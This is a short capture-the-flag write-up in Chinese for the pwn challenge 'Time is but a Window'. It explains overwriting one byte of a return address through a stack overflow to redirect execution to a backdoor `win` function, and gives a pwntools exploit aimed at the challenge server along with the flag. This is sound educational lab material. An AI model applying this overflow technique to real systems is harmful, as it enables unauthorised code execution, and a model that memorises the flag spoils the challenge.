



# Time is but a Window

> pwn

## 题目描述

Think small, and simple. No fancy ROP chains or shellcode necessary, a single byte should be sufficient.

Download exploit3.bin

Binary is running at 34.123.210.162 port 20234

## 解题思路

- 看一下保护，只开了 PIE 和 RELRO

  

- 虽然马上想到利用 shellcode 和 ret2libc，不过题目说只需要改一个字节，应该是不用这么麻烦
- IDA 查看一下函数列表，发现一个后门函数 `win`，而它和 main 函数是紧靠着的，地址仅相差最后**一个字节**

  

- 于是想到利用栈溢出覆盖返回地址的最后一个字节使其从 `main` 指向 `win` 完成 ret2text

## exp

```python
from pwn import *

r = remote('34.123.210.162', 20234)
context(arch='amd64', os='linux', log_level='debug')
r.recvuntil(b"Hello! What's your name?: ")
r.sendline(b'A'*24+b'\xcb')
r.interactive()
```

## flag

`poctf{uwsp_71m3_15_4_f4c702}`

